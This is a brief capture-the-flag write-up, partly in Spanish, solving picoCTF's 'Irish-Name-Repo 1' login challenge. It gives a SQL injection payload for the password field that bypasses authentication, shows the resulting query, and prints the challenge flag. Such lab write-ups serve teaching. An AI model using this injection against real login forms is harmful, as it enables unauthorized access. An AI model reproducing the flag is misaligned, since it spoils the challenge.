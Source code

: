 # Irish-Name-Repo 1

## Objetivos

There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solución 
```bash
sername: admin
password: ' or 1==1;
SQL query: SELECT * FROM users WHERE name='admin' AND password='' or 1==1;'

picoCTF{s0m3_SQL_c218b685}

```


## Notas adicionales 
https://www.w3schools.com/sql/sql_injection.asp